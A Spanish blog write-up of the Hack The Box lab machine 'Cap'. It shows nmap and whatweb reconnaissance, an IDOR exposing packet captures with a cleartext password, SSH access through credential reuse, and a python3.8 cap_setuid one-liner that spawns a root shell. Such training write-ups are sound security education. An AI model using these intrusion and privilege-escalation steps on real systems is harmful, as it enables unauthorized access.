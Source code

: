 ```yaml
---
layout: post
title: Cap
subtitle: Plataforma HTB Dificultad Fácil
cover-img: /assets/img/Cappeq.png
thumbnail-img: /assets/img/Cappeq.png
share-img: /assets/img/Cap.png
author: Elmili72
---
```


![Cap](https://github.com/user-attachments/assets/0b8cb699-b394-42c3-a12a-ef3e89053f72)

## Escaneo general de puertos

Primero empezamos un escaneo general de puertos, para ver como de expuesta está nuestra víctima.

```bash
$ sudo nmap -sS -p- --min-rate 5000 -vv -n -Pn 10.10.10.245 -oG allports
Host is up, received user-set (0.11s latency).
Scanned at 2025-06-09 12:12:40 CEST for 14s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
```

## Escaneo específico de puertos

Una vez tenemos los puertos realizamos un escaneo más específico para ver las versiones de los puertos que están expuestos. En este caso, tenemos los puertos 21 (FTP), 22 (SSH) y 80 (HTTP).

```bash
$ nmap -sCV -p21,22,80 10.10.10.245 -oN target
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-09 12:15 CEST
Nmap scan report for 10.10.10.245 (10.10.10.245)
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento servicio web

Hacemos un reconocimiento básico de la web con *Whatweb*, y vemos que no hay mucha información útil.

```bash
$ whatweb http://10.10.10.245
http://10.10.10.245 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn], IP[10.10.10.245], JQuery[2.2.4], Modernizr[2.8.3.min], Script, Title[Security Dashboard], X-UA-Compatible[ie=edge]
```

Entramos a la IP víctima y entramos en un Dashboard de un usuario llamado Nathan, tiene un menú pero no es funcional.

![image](https://github.com/user-attachments/assets/3306e2e5-ac0c-4a74-933e-955119736955)

Dos apartados del Dashboard son IP Config y Network Status, pero tampoco nos valen de mucho, más que para tener más información de que está corriendo en cada puerto y ver que no estamos encerrados en otro equipo por el "IP Config".

![image](https://github.com/user-attachments/assets/be94ffe6-7cd6-4c7f-86ee-4febd54b8d3d)

## Explotación

Si nos fijamos en la URL, antes ponía 1. Esto nos lleva a pensar que podemos explotar un IDOR (Insecure Direct Object Reference) y vemos que nos aparecen cargados unos paquetes de red que podemos bajarnos como una captura de wireshark.

![image](https://github.com/user-attachments/assets/9f889a37-8467-440b-9d63-ae5753e8bd48)

Buscamos un poco el tráfico grabado y vemos una password en texto claro. Viendo el código de Login serguramente nos permita entrar al servicio FTP, pero podemos confiar en que hayan hecho reutilización de credenciales y probar directamente con el SSH.

![image](https://github.com/user-attachments/assets/c30247ef-9e05-433b-abfe-f6827b6bdabe)

### Intrusión

Efectivamente, nos vale esa misma contraseña para entrar al SSH directamente y conseguimos nuestra flag de user.

```bash
$ ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245's password:
Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
1618b0******486488031
```

## Post-Explotación

### Escalada de Privilegios

De nuevo y como siempre, nuestra parte favorita. Una escalada sencilla pero que viene bien para asentar conocimientos en el tema de exploitación de *Capabilities*. Muy parecido a un binary abusing con *Sudo*.

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Rápidamente al encontrar "/usr/bin/python3.8" vamos a nuestro amigo *GTFOBins*. Y conseguimos nuestra flag de root sin ningún problema.

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# whoami
root
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:~# cat /root/root.txt
382dab******41ab640d
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!
